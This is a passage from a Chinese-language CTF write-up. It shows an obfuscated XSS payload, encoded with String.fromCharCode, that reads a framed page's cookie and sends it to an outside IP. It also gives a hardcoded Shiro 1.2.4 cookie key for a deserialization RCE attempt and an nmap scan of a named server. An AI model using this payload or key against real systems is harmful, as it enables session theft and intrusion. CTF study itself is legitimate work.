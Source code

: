 不知道为什么一直不执行，各种改也没用，后来改用documen.write写入就好了

```
document.write(String.fromCharCode(60,115,99,114,105,112,116,62,10,118,97,114,32,105,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,105,102,114,97,109,101,34,41,59,10,105,46,115,114,99,61,34,47,81,87,66,95,102,108,52,103,47,81,87,66,47,34,59,10,105,46,105,100,61,34,97,34,59,10,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,105,41,59,10,105,46,111,110,108,111,97,100,32,61,32,102,117,110,99,116,105,111,110,32,40,41,123,10,32,32,9,118,97,114,32,99,61,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,97,39,41,46,99,111,110,116,101,110,116,87,105,110,100,111,119,46,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59,10,9,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,49,49,53,46,50,56,46,55,56,46,49,54,63,120,120,61,34,43,99,59,10,125,10,60,47,115,99,114,105,112,116,62))
```

成功打到flag

## 彩蛋

挺迷的一题的，因为java出不了什么漏洞，所以题意就比较明显了，就是用低版本的组件本身的漏洞导致的。

首先拿到项目代码[https://github.com/zjlywjh001/PhrackCTF-Platform-Team](https://github.com/zjlywjh001/PhrackCTF-Platform-Team)

仔细研究其组件版本
[https://github.com/zjlywjh001/PhrackCTF-Platform-Team/blob/master/pom.xml](https://github.com/zjlywjh001/PhrackCTF-Platform-Team/blob/master/pom.xml)

发现其中shiro版本为1.2.4，shiro的1.2.4版本存在一个RCE漏洞。

有两篇文章
[https://www.seebug.org/vuldb/ssvid-92180](https://www.seebug.org/vuldb/ssvid-92180)

[http://www.freebuf.com/articles/system/125187.html](http://www.freebuf.com/articles/system/125187.html)

首先找到cookie加密密钥`phrackctfDE!~#$d (cGhyYWNrY3RmREUhfiMkZA==)`

用seebug上的poc生成测试cookie，无论在ysoserial上用各种版本的commoncollections都没办法利用，实在不懂java，再加上本地环境不完整，所以就想不到什么办法了。

后来再看别的wp得知，实际上在构造反序列化的gadgets时，不能用commoncollections，只能用JRMPclient。有待进一步研究

在想办法的时候，无意中用nmap扫描服务器，发现惊喜
```
root@iZ285ei82c1Z:~# nmap -Pn -sT 106.75.97.46

Starting Nmap 6.40 ( http://nmap.org ) at 2018-03-25 14:09 CST
Nmap scan report for 106.75.97.46
Host is up (0.020s latency).
Not shown: 983 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
42/tcp   filtered nameserver
135/tcp  filtered msrpc
139/tcp  filtered netbios-ssn
445/tcp  filtered microsoft-ds
593/tcp  filtered http-rpc-epmap
1027/tcp filtered IIS
1028/tcp filtered unknown
1068/tcp filtered instl_bootc
3128/tcp filtered squid-http
4444/tcp filtered krb524
5432/tcp open     postgresql
5800/tcp filtered vnc-http
5900/tcp filtered vnc
6669/tcp filtered irc
8009/tcp open     ajp13
8080/tcp open     http-proxy
```
